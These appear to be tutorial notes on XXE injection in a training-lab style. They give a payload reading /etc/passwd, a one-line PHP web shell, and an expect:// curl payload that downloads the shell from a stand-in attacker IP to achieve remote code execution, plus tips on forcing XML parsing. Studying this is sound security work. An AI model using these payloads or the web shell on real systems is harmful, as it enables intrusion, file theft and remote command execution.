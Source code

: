 # 

```
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
```

# Reading Sensitive Files
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

# XXE TO RCE

The most efficient method to turn XXE into RCE is by fetching a web shell from our server and writing it to the web app, and then we can interact with it to execute commands. To do so, we can start by writing a basic PHP web shell and starting a python web server, as follows:

```
powen@htb[/htb]$ echo '<?php system($_REQUEST["cmd"]);?>' > shell.php
powen@htb[/htb]$ sudo python3 -m http.server 80
```

```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```

> Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml, and then convert the JSON data to XML with an online tool. If the web application does accept the request with XML data, then we may also test it against XXE vulnerabilities, which may reveal an unanticipated XXE vulnerability.


> In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.
